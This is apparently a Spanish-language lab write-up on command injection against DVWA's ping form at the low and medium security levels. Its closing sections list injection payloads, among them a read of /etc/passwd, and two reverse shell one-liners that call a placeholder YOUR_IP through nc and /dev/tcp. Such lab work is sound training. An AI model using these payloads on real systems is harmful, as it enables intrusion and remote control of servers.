





# DVWA Command Injecttion

## DVWA Command Injection - Inyección con `|` y Security Low/Medium.

### Objetivo:
Inyectar comandos del sistema después de un ping usando el operador `|`.

---

Para ello vamos a introducir hostname o 127.0.0.1 para que haga ping a nuestro sistema, como vemos en la siguiente captura:

Primer Intento:



Y obtendremos el siguiente Resultado:



Ahora aplicando `|` la tuberia vamos a solicitar los archivos del directorio con un ls quedando asi el comando:

```
bash
hostname | ls
```
y podremos ver el resultado positivo de la injeccion:



---

Utilizando la misma tecnica podemos sacar informacion al nivel medio de seguridad.

Vamos a ver con la segurida en nivel medio.

Pagina 

Primera pagina en medium:



Resultado en medium:



### Payloads básicos

- `127.0.0.1 | whoami`
- `127.0.0.1 | id`
- `127.0.0.1 | uname -a`
- `127.0.0.1 | hostname`
- `127.0.0.1 | cat /etc/passwd`
- `127.0.0.1 | ls -la`
- `127.0.0.1 | ps aux`
- `127.0.0.1 | netstat -anp`

---

### Payloads para obtener una shell inversa (reverse shell)

(Suponiendo que tienes un listener en tu máquina con: `nc -nlvp 4444`)

- `127.0.0.1 | nc YOUR_IP 4444 -e /bin/bash`
- `127.0.0.1 | bash -i >& /dev/tcp/YOUR_IP/4444 0>&1`

**Nota:** Asegúrate de reemplazar `YOUR_IP` por tu dirección IP.

---